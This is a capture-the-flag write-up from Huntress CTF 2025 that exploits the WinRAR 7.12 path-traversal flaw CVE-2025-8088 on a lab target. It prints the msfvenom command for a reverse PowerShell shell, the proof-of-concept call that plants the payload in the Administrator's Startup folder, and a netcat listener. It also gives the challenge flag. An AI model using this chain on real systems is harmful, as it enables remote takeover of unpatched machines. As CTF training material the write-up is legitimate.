



# Huntress CTF 2025 - 📦 Threat Actor Support Line  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 📦 Threat Actor Support Line  
**Challenge prompt:**  
> You've heard of RaaS, you've heard of SaaS... the Threat Actor Support Line brings the two together!
> Upload the files you want encrypted, and the service will start up its own hacker computer (as the Administrator user with antivirus disabled, of course) and encrypt them for you!

```
WARNING

Some players have reported that while researching material that might help them with this challenge, they have discovered some public malicious Github repositories that embed malware under the guise of a tool or utility. These are external to the Huntress CTF, and while there is always potential for malware in outside/untrusted software, please exercise caution if you explore unknown third-party resources.
```

**Challenge category:** Miscellaneous  
**Challenge points:** 10

* * *  

## Steps to solve  

After launching the instance, I started by investigating the web application. The website provided a very specific clue about the technology stack: `We use WinRAR 7.12 for handling archives, and it's, as the Internet kids say, BLAZINGLY FAST!!!11`:



This explicit version number immediately suggested that a known, public vulnerability was the likely attack vector.

A quick search for WinRAR 7.12 vulnerabilities pointed me to **CVE-2025-8088**. The advisory described a path traversal flaw that exploits alternate data streams, allowing an attacker to write arbitrary files to any location on the file system when an archive is processed.

With a clear vulnerability in mind, I found a Proof-of-Concept (PoC) exploit on GitHub (https://github.com/sxyrxyy/CVE-2025-8088-WinRAR-Proof-of-Concept-PoC-Exploit-/tree/main). The next step was to create a payload to gain remote access. I used `msfvenom` to generate a `rce.bat` file that would execute a reverse PowerShell shell, connecting back to my machine:

```
msfvenom -p cmd/windows/reverse_powershell lhost=10.200.1.1 lport=4444 > rce.bat
```

Using a Windows VM with Python and a copy of WinRAR installed, I then used the PoC script to craft the malicious archive. The script was configured to embed my `rce.bat` payload and use the path traversal vulnerability to drop it into the Administrator's `Startup` folder. This would ensure the payload's execution.

```
python .\poc.py --decoy .\whatever.txt --payload .\rce.bat --drop "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```



This command produced the final archive, `cve-2025-8088-sxy-poc.rar`. To prepare for the incoming connection, I started a `netcat` listener on my attack machine.

```
nc -lvnp 4444
```

I uploaded the `cve-2025-8088-sxy-poc.rar` file to the target web application. As expected, shortly after the upload completed, a reverse shell connected back to my listener.

Once on the system, finding the flag was straightforward. It was located in the root of the `C:\` drive. I read the file's contents using the `type` command to reveal the flag:



**FLAG:** flag{6529440ceec226f31a3b2dc0d0b06965}
